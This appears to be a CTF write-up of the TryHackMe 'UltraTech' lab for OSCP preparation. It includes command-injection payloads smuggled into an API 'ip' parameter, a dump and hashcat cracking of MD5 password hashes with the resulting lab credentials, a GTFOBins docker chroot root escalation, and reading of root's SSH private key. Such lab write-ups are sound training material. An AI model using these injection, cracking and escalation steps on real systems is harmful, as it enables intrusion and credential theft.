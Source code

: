 ```yaml
---
layout: post
title:  THM UltraTech Write-up
description: Part of the OSCP+ Preparation Series
date:   2024-11-12 11:00:00 +0300
image:  '/images/thm_ultratech.png'
tags:   [Write-ups, THM, OSCP+, Medium, API, Arbitrary-File-Read, SSH, GTFOBins-Shell, Docker]
---
```


# Table of Contents
- [Enumeration](#enumeration)
  - [Nmap](#nmap)
  - [Web Enumeration](#web-enumeration)
- [Foothold](#foothold)
  - [Interacting with the API URL to enumerate files and find hashes on database .db file](#interacting-with-the-api-url-to-enumerate-files-and-find-hashes-on-database-db-files)
  - [Cracking the hashes](#cracking-the-hashes)
  - [Getting SSH access as r00t](#getting-ssh-access-as-r00t)
- [Privilege Escalation](#privilege-escalation)
  - [Using id to find out that r00t is part of docker group](#using-id-to-find-out-that-r00t-is-part-of-docker-group)
  - [Using shell GTFOBins command to escalate privileges](#using-shell-gtfobins-command-to-escalate-privileges)
  - [Reading id_rsa of root](#reading-id_rsa-of-root)

# Enumeration

### Nmap

```shell
# Step 1 - Find active ports
nmap -p- --min-rate 10000 10.10.211.145

# Step 2 - Focus scan on the active ports found
nmap -A -T4 -Pn -p21,22,8081,31331,37445 10.10.211.145
```

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-12 03:31 EST
Nmap scan report for 10.10.211.145
Host is up (0.052s latency).

PORT      STATE  SERVICE VERSION
21/tcp    open   ftp     vsftpd 3.0.3
22/tcp    open   ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:66:89:85:e7:05:c2:a5:da:7f:01:20:3a:13:fc:27 (RSA)
|   256 c3:67:dd:26:fa:0c:56:92:f3:5b:a0:b3:8d:6d:20:ab (ECDSA)
|_  256 11:9b:5a:d6:ff:2f:e4:49:d2:b5:17:36:0e:2f:1d:2f (ED25519)
8081/tcp  open   http    Node.js Express framework
|_http-cors: HEAD GET POST PUT DELETE PATCH
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
31331/tcp open   http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: UltraTech - The best of technology (AI, FinTech, Big Data)
37445/tcp closed unknown
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.26 seconds
```

Looking at the results of our nmap scan we can see FTP, SSH and two HTTP. Lets enumerate the HTTP ports first.

### Web Enumeration
If we visit port 8081, we will see UltraTech API v0.1.3, meaning that port 8081 is leading to an API:

```shell
http://10.10.211.145:8081/
```

If we visit port 31331, we will see a website of what seems to be a company.

We can also find a robots.txt file leading us to the file /utech_sitemap.txt:

```shell
http://10.10.211.145:31331/robots.txt
```

If we visit /utech_sitemap.txt, we will find more interesting files to visit:

```shell
/
/index.html
/what.html
/partners.html
```

We checked them, but the only interesting one seems to be /partners.html, leading us to a login portal.

If we inspect the source code of /partners.html, we will see this at the bottom:

```shell
<SNIP>
				</form>
				</div>
			</div>
		</div>
	</div>
	<script src='js/app.min.js'></script>
	<script src='js/api.js'></script>
</body>
</html>
```

If we click on js/api.js, it will lead us to another page, where we can see a line interacting with the API URL:

```shell
<SNIP>
    function checkAPIStatus() {
	const req = new XMLHttpRequest();
	try {
	    const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
	    req.open('GET', url, true);
	    req.onload = function (e) {
<SNIP>
```

Here it is:

```shell
const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
```

# Foothold
### Interacting with the API URL to enumerate files and find hashes on database .db file
It seems like the const url is using ping on an IP, lets try to ping 127.0.0.1, since we know this IP theoretically always exists, and see if we get any answer. We can do that entering the following URL in our web browser:

```shell
http://10.10.211.145:8081/ping?ip=127.0.0.1
```

```shell
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data. 64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.015 ms --- 127.0.0.1 ping statistics --- 1 packets transmitted, 1 received, 0% packet loss, time 0ms rtt min/avg/max/mdev = 0.015/0.015/0.015/0.000 ms
```

It worked! We got a response showing the results of running the ping command.

Now we can try to run other commands like whoami:

```shell
http://10.10.211.145:8081/ping?ip=whoami
```

It didnt work. Lets try to put whoami like 'whoami':

```shell
http://10.10.211.145:8081/ping?ip='whoami'
```

It also didnt work. Lets try something else. Maybe like \`whoami\`?

```shell
10.10.211.145:8081/ping?ip=`whoami`
```

```shell
ping: www: Temporary failure in name resolution
```

It worked! We got www as ping response, which is actually the result of running the whoami command.

Lets enumerate the files on the directory:

```shell
http://10.10.211.145:8081/ping?ip=`ls%20-al`
```

```shell
ping: utech.db.sqlite: Name or service not known 
```

It seems like there is only utech.db.sqlite. Lets check its content:

```shell
http://10.10.211.145:8081/ping?ip=`cat%20utech.db.sqlite`
```

```shell
ping: ) ���(Mr00tf357a0c52799563c7c7b76c1e7543a32)Madmin0d0ea5111e3c1def594c1684e3b9be84: Parameter string not correctly encoded
```

Nice! We got some hashes:

```shell
Mr00t:f357a0c52799563c7c7b76c1e7543a32
Madmin:0d0ea5111e3c1def594c1684e3b9be84
```

We can suppose that the first user is called "r00t" and the second one "admin".

### Cracking the hashes

Lets try to crack these hashes:

```shell
hashid 'f357a0c52799563c7c7b76c1e7543a32'
```

We got many results of possible valid hash types. Lets suppose its just a normal MD5, which uses -m 0 on hashcat. Now we can try to crack it:

```shell
hashcat -m 0 MrRoot_hash.txt /usr/share/wordlists/rockyou.txt
```

We were able to successfully crack both of them and retrieve the following passwords:

```shell
r00t:n100906
admin:mrsheafy
```

### Getting SSH access as r00t

Lets try to get access using SSH now using r00t as username and the password we just cracked:

```shell
ssh r00t@10.10.211.145
```

Nice! We got access as r00t.

# Privilege Escalation
### Using id to find out that r00t is part of docker group
Using the command id we were able to find out that r00t is part of the docker group:

```shell
id

uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
```

This may allow us to run docker with privileged permission.

### Using shell GTFOBins command to escalate privileges
Searching for docker on GTFOBins we found the following command:

```shell
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```

```shell
r00t@ultratech-prod:~$ docker run -v /:/mnt --rm -it bash chroot /mnt sh
# whoami
root
```

It worked! We got a shell as root.

### Reading id_rsa of root
Now we can read the contents of the root id_rsa and answer the last question:

```shell
cat /root/.ssh/id_rsa
```